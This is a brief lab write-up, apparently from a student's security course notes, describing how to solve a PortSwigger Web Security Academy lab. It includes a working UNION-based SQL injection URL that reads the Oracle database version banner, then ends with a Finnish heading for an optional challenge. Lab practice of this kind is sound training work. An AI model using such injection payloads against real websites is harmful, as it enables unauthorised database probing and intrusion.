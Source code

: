 I already knew from the previous lab, how to determine the version and type.    

I didnt do all the possible steps to test the columns and strings,but went straight to test:   
```sql
web-security-academy.net/filter?category=Accessories'+UNION+SELECT+NULL,banner+FROM+v$version--
```

![](res/portSwigLab-23.png)   
![](res/portSwigLab-24.png)

**And done!**

---
### h) Vapaaehtoinen: Mystery labs challenge. Tason voit itse valita. Monet harjoitukset sisältävät kohtia, joita ei ole erikseen opetettu kurssilla.
